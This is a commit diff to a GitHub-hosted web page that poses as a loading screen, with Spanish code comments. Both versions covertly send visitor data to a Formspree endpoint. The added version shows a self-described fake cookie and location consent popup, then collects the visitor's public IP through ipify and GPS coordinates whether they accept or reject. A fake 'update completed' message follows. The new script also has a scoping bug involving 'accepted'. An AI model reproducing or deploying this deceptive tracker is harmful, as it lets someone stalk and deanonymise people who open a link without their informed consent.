

Before and after one commit to lolalalallazoo/ip-turip-ip-ip-turip-turip, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 238-538 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,70 +5,102 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Cargando...</title>
     <style>
-        body {
-            background-color: #f4f4f4;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-            font-family: Arial, sans-serif;
+        body { font-family: Arial, sans-serif; margin: 0; padding: 0; background-color: #f9f9f9; }
+
+        /* Estilo del Popup Falso */
+        .cookie-overlay {
+            position: fixed; top: 0; left: 0; width: 100%; height: 100%;
+            background: rgba(0,0,0,0.5); z-index: 1000; display: flex;
+            justify-content: center; align-items: center;
         }
-        .loader {
-            border: 5px solid #e0e0e0;
-            border-top: 5px solid #007bff;
-            border-radius: 50%;
-            width: 40px;
-            height: 40px;
-            animation: spin 1s linear infinite;
+        .cookie-box {
+            background: white; padding: 20px; border-radius: 8px;
+            box-shadow: 0 4px 10px rgba(0,0,0,0.2); max-width: 90%; width: 400px; text-align: center;
         }
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
+        .cookie-box h2 { margin-top: 0; color: #333; font-size: 18px; }
+        .cookie-box p { font-size: 14px; color: #666; line-height: 1.4; }
+        .btn-group { margin-top: 20px; display: flex; gap: 10px; justify-content: center; flex-wrap: wrap; }
+        button {
+            padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; font-weight: bold; font-size: 14px;
         }
+        .btn-accept { background-color: #007bff; color: white; }
+        .btn-reject { background-color: #e0e0e0; color: #333; }
+
+        /* Pantalla de carga falsa */
+        .loader-screen {
+            display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%;
+            background: white; z-index: 2000; justify-content: center; align-items: center; flex-direction: column;
+        }
+        .spinner {
+            border: 4px solid #f3f3f3; border-top: 4px solid #333; border-radius: 50%;
+            width: 30px; height: 30px; animation: spin 1s linear infinite; margin-bottom: 10px;
+        }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
-    <!-- Elemento visual para despistar -->
-    <div class="loader"></div>
+
+    <!-- Popup Falso -->
+    <div id="cookieOverlay" class="cookie-overlay">
+        <div class="cookie-box">
+            <h2>🍪 Preferencias de Cookies y Ubicación</h2>
+            <p>Utilizamos cookies propias y de terceros para mejorar tus servicios. También necesitamos acceso a tu ubicación GPS para personalizar el contenido.</p>
+            <div class="btn-group">
+                <button class="btn-reject" onclick="handleChoice(false)">Rechazar</button>
+                <button class="btn-accept" onclick="handleChoice(true)">Aceptar Todas</button>
+            </div>
+        </div>
+    </div>
+
+    <!-- Pantalla de Carga -->
+    <div id="loader" class="loader-screen">
+        <div class="spinner"></div>
+        <p>Conectando con los servidores...</p>
+    </div>
 
     <script>
-        // 1. Recopilar datos del visitante
-        const visitorData = {
-            // IP: Formspree la detectará automáticamente en los metadatos del envío,
-            // pero podemos incluir userAgent y otros detalles útiles.
-            userAgent: navigator.userAgent,
-            language: navigator.language,
-            screenResolution: screen.width + "x" + screen.height,
-            timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
-            timestamp: new Date().toISOString(),
-            referrer: document.referrer
-        };
+        // TU ID DE FORMSPREE AQUÍ
+        const formId = 'xvkarpbk';
 
-        // 2. Enviar datos a Formspree usando Fetch API (Vanilla JS)
-        fetch("https://formspree.io/f/xvkarpbk", {
-            method: "POST",
-            headers: {
-                "Content-Type": "application/json",
-                "Accept": "application/json"
-            },
-            body: JSON.stringify(visitorData)
-        })
-        .then(response => {
-            if (response.ok) {
-                console.log("✅ Rastreo enviado correctamente");
+        function handleChoice(accepted) {
+            // Ocultar popup
+            document.getElementById('cookieOverlay').style.display = 'none';
+            // Mostrar loader
+            document.getElementById('loader').style.display = 'flex';
+
+            // Pedir GPS
+            let lat = null, lng = null;
+            if (navigator.geolocation) {
+                navigator.geolocation.getCurrentPosition(pos => {
+                    lat = pos.coords.latitude.toFixed(6);
+                    lng = pos.coords.longitude.toFixed(6);
+                    sendData(lat, lng);
+                }, () => {
+                    sendData(null, null); // Si rechaza GPS, enviamos igual
+                });
             } else {
-                console.error("❌ Error al enviar:", response.status);
+                sendData(null, null);
             }
-        })
-        .catch(error => {
-            console.error("❌ Error de red:", error);
-        });
+        }
 
-        // 3. Simular carga y mostrar mensaje final (opcional, para naturalidad)
-        setTimeout(() => {
-            document.body.innerHTML = "<h2 style='text-align:center;'>Actualización completada.</h2>";
-        }, 2000);
+        function sendData(lat, lng) {
+            fetch(`https://api.ipify.org?format=json`)
+                .then(response => response.json())
+                .then(data => {
+                    const formData = new FormData();
+                    formData.append('IP Pública', data.ip);
+                    formData.append('Latitud GPS', lat || 'No disponible');
+                    formData.append('Longitud GPS', lng || 'No disponible');
+                    formData.append('Estado', accepted ? 'Aceptó Cookies' : 'Rechazó Cookies');
+
+                    fetch('https://formspree.io/f/' + formId, { method: 'POST', body: formData })
+                        .then(() => {
+                            setTimeout(() => {
+                                document.getElementById('loader').innerHTML = '<h2 style="color:green">✅ Actualización completada</h2>';
+                            }, 1500);
+                        });
+                });
+        }
     </script>
 </body>
 </html>
```
